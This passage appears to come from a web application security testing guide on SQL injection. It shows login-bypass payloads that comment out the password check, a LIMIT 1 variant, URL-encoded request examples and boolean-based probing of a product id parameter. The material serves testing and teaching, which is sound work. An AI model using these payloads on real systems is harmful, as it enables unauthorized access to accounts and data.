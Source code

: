 `$username = 1' or '1' = '1'))/*`

`$password = foo`

In this way, we'll get the following query:

`SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))`

(Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.)

The URL request will be:

`http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo`

This may return a number of values. Sometimes, the authentication code verifies that the number of returned records/results is exactly equal to 1. In the previous examples, this situation would be difficult (in the database there is only one value per user). In order to go around this problem, it is enough to insert a SQL command that imposes a condition that the number of the returned results must be one. (One record returned) In order to reach this goal, we use the operator `LIMIT <num>`, where `<num>` is the number of the results/records that we want to be returned. With respect to the previous example, the value of the fields Username and Password will be modified as follows:

`$username = 1' or '1' = '1')) LIMIT 1/*`

`$password = foo`

In this way, we create a request like the follow:

`http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo`

#### SELECT Statement

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script who executes the query above:

`http://www.example.com/product.php?id=10`

When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. A good way to test if the application is vulnerable in this scenario is play with logic, using the operators AND and OR.

Consider the request:

`http://www.example.com/product.php?id=10 AND 1=2`

`SELECT * FROM products WHERE id_product=10 AND 1=2`

In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

`http://www.example.com/product.php?id=10 AND 1=1`

#### Stacked Queries

Depending on the API which the web application is using and the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) it may be possible to execute multiple queries in one call.
